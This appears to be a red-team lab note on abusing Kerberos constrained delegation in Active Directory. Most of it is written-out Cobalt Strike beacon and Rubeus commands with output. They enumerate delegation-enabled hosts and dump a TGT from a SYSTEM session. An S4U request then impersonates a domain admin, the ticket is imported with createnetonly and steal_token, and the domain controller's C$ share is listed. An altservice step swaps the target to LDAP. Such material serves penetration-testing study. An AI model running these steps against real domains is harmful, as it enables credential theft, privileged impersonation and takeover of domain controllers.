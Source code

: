 # Constrained Delegation



## Introduction

Constrained delegation is a safer means for services to perform delegation. Constrained delegation aims to restrict the services to which the server can act on behalf of the user. It no longer allows the server to cache TGTs of other users. But it does allow it to request a TGS for another user (using it's own TGT).

**Scope of Trust:** Constrained delegation allows a service to impersonate a user only for specific services.

**Usage:** Typically used in scenarios where a service needs to access another service on behalf of the user (example: web server interacting with database)

**Configuration:** This is set up on the service account level in Active Directory. You specify which target services the account can delegate to.

## Enumerate hosts configured for constrained delegation

```sh
beacon> execute-assembly C:\ToolsADSearch.exe --search 
"(&(objectCategory=computer)(msds-allowedtodelegateto=*))" 
--attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
msds-allowedtodelegateto (what we're looking for)
...
```



## Perform Delegation

To perform the delegation, we need the TGT of the principal (computer or user) trusted for delegation.  The most direct way is to extract it with Rubeus `dump`:

<mark style="color:yellow;">**Technique**</mark>:   We can also request one with Rubeus `asktgt` if you have NTLM or AES hashes.



### Dump TGT

```sh
beacon> run hostname
sql-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                    | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
  (LUID is what we need)                  (We what the LUID for krbtgt service)
  
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

```

### Get TGT

With the TGT, perform an S4U request to obtain a usable TGS. We want someone who we know to be a local admin on the target.  In this case, a domain admin makes the most sense.

This will perform an S4U2Self first and then an S4U2Proxy.&#x20;

```sh
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe s4u 
/impersonateuser:cfoxy /msdsspn:cifs/dc-2.rotta.lab 
/user:sql-2$ /ticket:<ticket-from-dump> /nowrap

[*] Action: S4U

Success!
```

where:

* `/impersonateuser` is the user we want to impersonate. MUST BE LOCAL DOMAIN ADMIN to the host.
* `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
* `/user` is the principal allowed to perform the delegation that we dumped a ticket for.
* `/ticket` is the TGT for `/user`.

### Create New Login Session

<mark style="color:red;">**Note**</mark>**:** Make sure to always use the FQDN. Otherwise, you will see 1326 errors.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /domain:ROTTA /username:cfoxy /password:Password123! /ticket:<ticket>

beacon> steal_token 5540

beacon> ls \\dc-2.rotta.lab\c$
```

##

## Alternate Service Name

## Rubeus /altservice

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy 
/msdsspn:cifs/dc-2.rotta.lab /altservice:ldap /user:sql-2$ /ticket:<ticket> /nowrap

[*] Action: S4U

...


beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ROTTA /username:cfoxy 
/password:Password123! /ticket:<ticket>

[+] ProcessID       : 2580
[+] Ticket successfully imported!

...

beacon> steal_token 2580
```
